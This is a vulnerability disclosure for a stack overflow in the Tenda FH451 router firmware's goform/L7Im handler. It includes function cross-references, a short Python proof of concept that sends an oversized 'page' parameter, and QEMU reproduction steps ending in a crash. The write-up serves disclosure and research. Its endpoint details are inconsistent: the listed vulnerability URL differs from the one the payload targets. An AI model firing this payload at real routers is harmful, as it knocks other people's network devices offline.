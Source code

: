 # The router Tenda FH451 V1.0.0.9 of Shenzhen Jixiang Tenda Technology Co., Ltd. has a stack overflow vulnerability

Firmware download link:https://tenda.com.cn/material/show/101629

Vulnerability URL:http://192.168.100.157:80/goform/P2pListFilter

The vulnerability occurs in the function.`frmL7ImForm`

![](https://picture-1312228068.cos.ap-shanghai.myqcloud.com/202504022235740.png)

The program obtains the user input parameter "page" but does not check its size. When the input parameter is too large, it causes a stack overflow, leading to program crashes or exploitation.
Cross-referenced to the function route `L7Im` in the `frmL7ImForm` function.

![](https://picture-1312228068.cos.ap-shanghai.myqcloud.com/202504022236989.png)

Cross-referenced to the function `sub_2DBE0`, with attention to lines 44 and 47.

![](https://picture-1312228068.cos.ap-shanghai.myqcloud.com/202504022238355.png)

The path of the webpage where the vulnerability occurs is known to be `goform/L7Im`.

payload:(python)

```python
import requests

url = "http://192.168.100.163/goform/L7Im"

payload = {
   'page': b'a'*(0x100000)
}

res = requests.post(url=url, data=payload)
print("Status Code:", res.status_code)
print("Response:", res.text)
```

# Reproduction Steps

## Launch QEMU Emulation

Open the QEMU emulator to simulate the environment.

![](https://picture-1312228068.cos.ap-shanghai.myqcloud.com/202504022240892.png)

Run the script.

![](https://picture-1312228068.cos.ap-shanghai.myqcloud.com/202504022240996.png)

![](https://picture-1312228068.cos.ap-shanghai.myqcloud.com/202503281215926.png)

![](https://picture-1312228068.cos.ap-shanghai.myqcloud.com/202504022242551.png)

The router has crashed.

